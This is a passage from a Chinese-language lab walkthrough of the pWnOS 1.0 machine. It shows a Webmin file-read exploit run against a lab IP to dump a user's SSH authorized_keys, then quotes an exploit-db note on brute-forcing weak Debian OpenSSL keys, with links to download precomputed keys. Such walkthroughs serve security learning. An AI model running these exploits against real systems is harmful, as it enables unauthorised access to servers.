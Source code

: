      -------------------------------------
                                                                                                         
    ┌──(kali㉿kali)-[~/Documents/WalkThrough/pWnOS1.0]
    └─$ vim vmware-keys                                                              
                                                                                                         
    ┌──(kali㉿kali)-[~/Documents/WalkThrough/pWnOS1.0]
    └─$ ./2017.pl 192.168.2.138 10000 /home/obama/.ssh/authorized_keys 0
    WEBMIN EXPLOIT !!!!! coded by UmZ!
    Comments and Suggestions are welcome at umz32.dll [at] gmail.com
    Vulnerability disclose at securitydot.net
    I am just coding it in perl 'cuz I hate PHP!
    Attacking 192.168.2.138 on port 10000!
    FILENAME:  /home/obama/.ssh/authorized_keys
    
     FILE CONTENT STARTED
     -----------------------------------
    ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB60JctxC6BDxjqQXggf0ptx2wrcAw09HayPxMnKv+BFiGA/I1yXn5EqUfuLSDcTwiIeVSvqJl3NNI5HQUUc6KGlwrhCW464ksARX2ZAp9+6Yu7DphKZmtF5QsWaiJc7oV5il89zltwBDqR362AH49m8/3OcZp4XJqEAOlVWeT5/jikmke834CyTMlIcyPL85LpFw2aXQCJQIzvkCHJAfwTpwJTugGMB5Ng73omS82Q3ErbOhTSa5iBuE86SEkyyotEBUObgWU3QW6ZMWM0Rd9ErIgvps1r/qpteMMrgieSUKlF/LaeMezSXXkZrn0x+A2bKsw9GwMetQ== obama@ubuntuvm
    
     -------------------------------------
    
    ```

-   搜索漏洞库`prng` 

-   ![image-20230526184416715](https://raw.githubusercontent.com/r0o983/images/main/image-20230526184416715.png)

-   这三个文件任意下载一个，操作方式都是类似的，这里下载`5622.txt`文件 --> `searchspoit prng -m 5622.txt`

-   ```shell
    └─$ cat 5622.txt 
    the debian openssl issue leads that there are only 65.536 possible ssh
    keys generated, cause the only entropy is the pid of the process
    generating the key.
    
    This leads to that the following perl script can be used with the
    precalculated ssh keys to brute force the ssh login. It works if such a
    keys is installed on a non-patched debian or any other system manual
    configured to.
    
    On an unpatched system, which doesn't need to be debian, do the following:
    
    keys provided by HD Moore - http://metasploit.com/users/hdm/tools/debian-openssl/
    ***E-DB Note: Mirror ~ https://github.com/g0tmi1k/debian-ssh***
    
    1. Download http://sugar.metasploit.com/debian_ssh_rsa_2048_x86.tar.bz2
                https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
    
    2. Extract it to a directory
    
    3. Enter into the /root/.ssh/authorized_keys a SSH RSA key with 2048
    Bits, generated on an upatched debian (this is the key this exploit will
    break)
    